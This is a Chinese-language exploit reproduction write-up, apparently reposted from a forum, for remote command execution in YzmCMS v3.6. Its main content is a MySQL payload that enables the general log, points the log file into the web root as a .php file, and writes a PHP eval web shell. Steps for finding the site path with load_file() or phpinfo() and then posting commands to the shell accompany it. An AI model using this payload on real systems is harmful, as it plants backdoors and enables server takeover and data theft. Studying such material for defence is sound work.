




# YzmCMS v3.6 远程命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3303](https://www.zhihuifly.com/t/topic/3303)

# YzmCMS v3.6 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

##### 1、执行sql语句，查看mysql日志配置情况



#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。



#### 3、分别执行下列sql语句，将脚本代码写入文件：

```
set global general_log = on; `set global general_log_file =CONCAT(“E:\study\WWW\YzmCMS\test.”,“php”); select ‘<?php eval($_POST[cmd]);?>’;` 
```



#### 4、提交参数，执行脚本代码：

